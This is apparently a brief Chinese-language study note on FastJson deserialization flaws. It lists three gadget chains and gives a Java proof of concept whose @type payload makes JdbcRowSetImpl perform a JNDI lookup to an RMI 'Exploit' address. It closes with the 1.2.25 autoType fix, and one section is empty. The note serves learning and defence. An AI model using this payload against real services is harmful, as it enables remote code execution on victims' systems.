 # FastJson反序列化

FastJson是阿⾥巴巴的开源JSON解析库,它可以解析JSON格式的字符串,⽀持将Java Bean序列化为JSON字符串,也可以从JSON字符串反序列化到Java Bean.

## 反序列化入口



## 利用链

常见的利用链有三个: 

- com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
- com.sun.rowset.JdbcRowSetImpl
- org.apache.tomcat.dbcp.dbcp2.BasicDataSource

第一个`TemplatesImpl`常规的加载java字节码的执行,需要目标主机在反序列化是传入`Feature.SupportNonPublicField`选项,才能对private属性进行赋值

第二个`JdbcRowSetImpl`用到jndi外联,利用条件比较低,需要目标主机可以访问恶意jndi服务器

```java
public static void main(String[] args) {
 String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
 JSON.parse(PoC);
 }
```

第三个`BasicDataSource`也是一种加载字节码的利用链,但是不需要传递额外的参数选项,也不需要目标主机联网

### BCEL ClassLoader

`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

`com.sun.org.apache.bcel.internal.util.ClassLoader`


## 修复

官方在1.2.25版本中新增了 `autoTypeSupport` 反序列化选项，并通过 `checkAutoType` 函数对加载类进⾏⿊⽩名单过滤和断。
